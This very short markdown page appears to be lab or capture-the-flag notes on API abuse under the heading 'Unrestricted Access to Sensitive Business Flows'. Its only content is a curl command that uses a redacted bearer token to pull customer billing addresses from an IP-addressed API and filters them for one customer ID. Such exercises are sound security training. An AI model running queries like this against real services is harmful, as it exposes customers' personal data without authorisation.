

# Unrestricted Access to Sensitive Business Flows

```bash
curl -X 'GET' 'http://83.136.255.143:38876/api/v1/customers/billing-addresses' -H 'accept: application/json' -H 'Authorization: Bearer <REDACTED_JWT>' | jq | grep -B 1 -A 5 "daa8c984-ba84-4265-8d88-12d6607e511c" | jq
```


